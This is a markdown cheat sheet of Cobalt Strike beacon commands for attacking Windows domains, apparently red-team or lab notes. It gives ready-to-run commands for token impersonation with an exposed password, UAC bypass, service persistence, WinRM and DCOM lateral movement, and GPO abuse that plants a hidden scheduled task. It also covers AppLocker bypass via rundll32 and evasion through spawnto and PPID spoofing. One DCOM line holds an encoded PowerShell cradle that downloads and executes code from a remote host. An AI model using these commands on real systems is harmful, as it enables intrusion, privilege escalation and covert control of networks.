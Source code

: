 - Make token for local administrator on another machine
	- `make_token wkstn-1921\Administrator MVYZKwfr356v3M`
	- Equivalent to runas /netonly
- Spawn beacon as another user
	- `spawnas CYBER\\n.lamb REDACTED http-vpn`
	- Equivalent to runas.exe
- Execute command on remote machine
	- `remote-exec winrm DTOP896 type C:\Users\duggand\Desktop\AppLocker.txt`
- Create new Windows service
	- `runasadmin uac-cmstplua sc.exe create "Cthulhu Fhtagn Service" start= auto binPath= "C:\Temp\cthulhu.exe"`
	- `runasadmin uac-cmstplua sc.exe start "Cthulhu Fhtagn Service"`
- UAC Bypass
	- `elevate uac-token-duplication tcp-localhost`
- Lateral movement using DCOM
	- `execute-assembly C:\Tools\MiscTools\CsDCOM\bin\Debug\CsDCOM.exe -t wkstn-4945 -b powershell.exe -a "-enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA0ADIAOQA6ADgAMAA4ADEALwB0ACcAKQA=" -m mmc20application`
- SharpGPOAbuse
	- `execute-assembly C:\tools\SharpGPOAbuse\SharpGPOAbuse\bin\Debug\SharpGPOAbuse.exe --AddComputerTask --TaskName "Legit Task" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c powershell -nop -w hidden -enc cABv[...snip...]ACIA" --GPOName "Cthulhu GPO"`
- Run DLL payload (great for AppLocker bypass)
	- `C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW`
- Reverse Port Forward
	- `rportfwd 8080 10.10.5.120 80`
- Change the executable which the beacon will spawn to perform various postex procs (default: rundll32.exe)
	- `spawnto x64 %windir%\sysnative\notepad.exe`
	- Can also set in C2 profile
		```
		post-ex {
		    set spawnto_x86 "%windir%\\syswow64\\notepad.exe";
		    set spawnto_x64 "%windir%\\sysnative\\notepad.exe";
		}
		```
- Change parent process for all beacon post-ex procs that spawn a process
	- `ppid <PID of desired process>`